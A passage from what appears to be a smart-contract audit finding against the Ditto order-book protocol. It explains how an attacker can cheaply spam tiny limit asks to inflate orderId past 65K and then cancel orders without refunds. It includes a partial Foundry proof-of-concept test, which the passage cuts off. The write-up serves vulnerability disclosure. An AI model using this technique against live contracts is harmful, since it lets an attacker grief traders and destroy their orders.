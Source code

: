   ```
    > the shorters will lose more then others since thier balance get decreaced by : **_PRICE_** \* **_AMOUNT_** \* **_MARGIN_**.
- The second issue is there is _no limit_ for how many orders can be cancelled. you can cancel the whole orders in a market that reaches **65K** **orderId**. `limits shorts` ,`limits asks` or `limit bids` .starting from the last one.since the only Conditionto be able to cancel orders is the asset order ID reached this number. and if it reachs it. it never decrease .even if there is alot of orders **behind head**(non active) to be reused.

- a malicious actor Can targeted this vulnerability by creating numerous tiny `limit asks` pushing the `orderId` to be too high .and he can do so by creating `ask` with a very high **price** and very **small amount** so he can pass the `MinEth` amount check, he can just with less then `1 cusd` (in case of cusd market) create a bunsh of `limit asks` orders .
## POC : 
- using the the main [repo](https://github.com/Cyfrin/2023-09-ditto) setup for testing , here a poc shows how a malicious user can fill the **orderbook** with bunsh of tiny `limit asks` with little cost. and how you can cancle all orders in case the **orderId** reachs 65k. also that there is no refund for the users that created this orders.
```solidity
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity 0.8.21;

import {Errors} from "contracts/libraries/Errors.sol";
import {Events} from "contracts/libraries/Events.sol";
import {STypes, MTypes, O} from "contracts/libraries/DataTypes.sol";
import {Constants} from "contracts/libraries/Constants.sol";
import "forge-std/console.sol";
import {OBFixture} from "test/utils/OBFixture.sol";
// import {console} from "contracts/libraries/console.sol";

contract POC is OBFixture {
   address[3] private bidders = [address(435433), address(423432523), address(522366)];
   address[3] private shorters = [address(243422243242), address(52353646324532), address(40099)];
    address attacker = address(3234);
   function setUp() public override {
       super.setUp();
   }

       // an attacker can fill the order book with a bunsh of asks that have too high price and low asset 
   function test_fillWithAsks() public {
    // create a bunsh of asks with a high price :
    depositUsd(attacker, DEFAULT_AMOUNT * 10000);
    uint balanceAssetBefore = diamond.getAssetBalance(asset,attacker);
        // minAsk = 0.0001 ether . 0.0001 ether = x * 1 , x =0.0001 ether * 1 ether
        vm.startPrank(attacker);
        for (uint i ; i< 1000 ;i++){
           createLimitAsk(  10**24, 10**10); 
        }
        vm.stopPrank();
        STypes.Order[] memory asks = diamond.getAsks(asset);
        console.log("tiny asks created : ", asks.length);
        console.log( "hack cost asset", balanceAssetBefore - diamond.getAssetBalance(asset,attacker));

   }
   function test_cancleOrders() public {
       //set the assetid to 60000;
       diamond.setOrderIdT(asset,64998);
       // create multiple bids and 1 shorts
       fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, bidders[0]); // id 64998
       fundLimitShortOpt(uint80(DEFAULT_PRICE)*4, DEFAULT_AMOUNT, shorters[0]); //id 64999
       fundLimitBidOpt(DEFAULT_PRICE*2, DEFAULT_AMOUNT, bidders[1]); // id 65000
       fundLimitBidOpt(DEFAULT_PRICE*3 , DEFAULT_AMOUNT, bidders[2]); //id 65001
  ```